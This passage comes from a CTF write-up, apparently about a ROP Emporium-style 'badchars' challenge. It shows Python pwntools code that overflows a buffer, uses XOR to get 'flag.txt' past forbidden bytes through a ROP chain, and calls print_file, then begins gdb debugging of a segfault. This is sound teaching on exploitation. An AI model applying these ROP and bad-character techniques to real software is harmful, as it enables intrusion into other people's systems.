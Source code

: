 ```py
                r_indexes.append(j)
            else:
                rchunk += bytes([c])

        # 0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
        payload += p64(0x40069c)
        payload += rchunk                       # r12
        payload += p64(target + i * CHUNKSIZE)  # r13
        payload += b'\x00' * 8                  # r14
        payload += b'\x00' * 8                  # r15

        # 0x0000000000400634 : mov qword ptr [r13], r12 ; ret
        payload += p64(0x400634)

        # 0x00000000004006a0 : pop r14 ; pop r15 ; ret
        # 0x0000000000400628 : xor byte ptr [r15], r14b ; ret
        for j in r_indexes:
            payload += p64(0x4006a0)
            payload += bytes([r]).ljust(8, b'\x00')     # r14
            payload += p64(target + i * CHUNKSIZE + j)  # r15

            payload += p64(0x400628)                    # xor gadget

    return payload

payload = b'A' * 0x28
payload += write_str(elf.symbols['__data_start'], 'flag.txt', ['.', 'x', 'g', 'a'])

payload += p64(0x4006a3) # pop rdi ; ret
payload += p64(elf.symbols['__data_start'])

payload += p64(elf.symbols['print_file'])
# dump payload to local file or send to remote
```

However, if we try to run this, it fails. We get a segfault, and no flag is printed. That's weird, what's going on?

### Step by step
Running the payload inside `gdb` (`run < payload`), we can see where our ropchain starts:
![breakpoint at 0x7ffff7c00a06 <pwnme+268>      ret](/img/writeups/2023/upsolving/pwn-progress-2/ropchainstart.png)
